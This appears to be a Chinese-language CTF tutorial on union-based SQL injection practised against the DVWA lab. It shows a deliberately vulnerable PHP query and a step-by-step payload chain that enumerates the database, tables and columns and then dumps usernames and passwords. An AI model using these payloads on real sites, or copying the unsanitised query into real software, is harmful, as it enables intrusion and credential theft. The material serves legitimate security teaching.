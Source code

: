 # SQL联合注入

> 以下所有代码都可以在DVWA靶场实践（Low）！DVWA靶场建立戳[DVWA部署](CTF/DVWA/DVWA部署.md)

假设有如下代码：

```php
<?php
	$id = $_REQUEST['id'];
	$query = "SELECT firstname, lastname FROM users WHERE userid = '$id';";
	$result = mysql_query($query);
    ?>
```

这段代码获取到了用户输入的`id`，并且将`id`包裹在单引号内直接写入到了sql查询语句当中，由于有单引号包裹，所以识别为字符类型，因此有了sql注入点，如果我们输入一些sql语句而非真正的`id`，那输入的sql语句也会被执行，从而获取数据库中的信息，如：

```
# input
1' or '1'='1' #
```

说明一下，由于id在查询中是被单引号包裹的，所以需要对单引号进行处理，第一个1后面的单引号是对原有语句的左引号进行闭合，最后的`#`用于注释掉原有的右单引号，处理后，查询语句看起来就是这样的：

```sql
SELECT firstname, lastname
FROM users
WHERE userid = '1' or '1' = '1' #'
```

其中只有`#`前面的才会被执行，语法没有错误，这段语句什么道理呢？

这段语句也被称为sql万能语句

其中 `userid = '1'` 是用来查询第一个用户，通常为管理员用户

`or '1' = '1'`是一个恒等式，永远为真，因此所有的用户也都会被查询出来

## 得到表中查询的字段数

在进行sql注入前，我们最好需要知道开发者通过`userid` 查询了哪些字段，需要注意的是，查询的字段不一定是回显输出的字段，有些字段查了，但是开发者并不需要输出这些

```
1' or 1 = 1 order by 1 #
```

可以使用`order by`语句，它的作用是以某一列作为参照排序，我们可以从某个数开始尝试，如果有回显，那么说明至少有这些列，继续增大，直到报错为止，我们就可以知道一共有多少字段数了

## 得到查询后输出的字段标号

刚才提到了，开发者可能查询很多字段，但是仅输出部分字段值，如何知道这些字段值的标号，以便于注入呢？

刚才我们已经知道了所有的字段数，这里假设为3，因此可以使用下面的语句进行探测：

```
1' union select 1, 2, 3 #
```

什么意思呢？可以看下表

```
	firstname	lastname	age
	   San        Zhang      22
	   1           2         3
```

`union`会将`1 2 3`和原有表拼接并输出，假设开发者仅输出了`firstname` 和 `age` 两个字段值，那么我们看到的回显将会是下面这个样子

```
San    22
1      3
```

OK，仅有1和3被输出了，所以我们知道了输出的字段在查询字段中的位置和标号

**注意：使用`union`时候后面拼接的字段数一定要和总字段数相等，不然无法拼接，报错**

## Union 查询

事实上我们可以发现，在做此类sql注入时都使用了一个结构：

```
1' SQL语句 #
```

前者的`1'`用于闭合左引号，后者的`#`用于注释右引号，所以我们只要在中间部分插入`union`语句，就可以查到我们想要的东西，如：

**查询数据库名**

```
1' union select 1, database() #
```

**查询表名**

```
1' union select 1, group_concat(table_name) from information_schema.tables where table_schema=database() #
```

其中`information_schema`保存了整个数据库的一些信息，其中包括：

* `information schema`
  * `schema` ：提供了当前mysql实例中所有建立的数据库的信息
  * `TABLES`：描述某个数据库中表的信息，可以用 `tables from schema_name`取之
  * `COLUMNS`：描述某个表中字段的信息，可以用`columns from schema_name.table_name`取之

因此同理，我们可查

**查询字段名**

```
1' union select 1, group_concat(column_name) from information_schema.columns where table_name='users' #
```

**`limit`**

有的时候`group_concat()`可能会被出题人过滤掉，每次只能看到回显的一条信息，那该如何得到每一个字段名呢，可以多次使用`limit`

```
1' union select 1, column_name from information_schema.columns where table_name='users' limit 5, 1 #
```

`limit 5, 1`表示从第5行开始查询，查询往后的1行信息（包括第5行）

**OK，到此为止，这个数据库的大概模样已经被我们知晓的差不多了，下一步就是查询其中的数据**

**查询数据**

```
1' union select lastname, password from users # 
```

持续更新...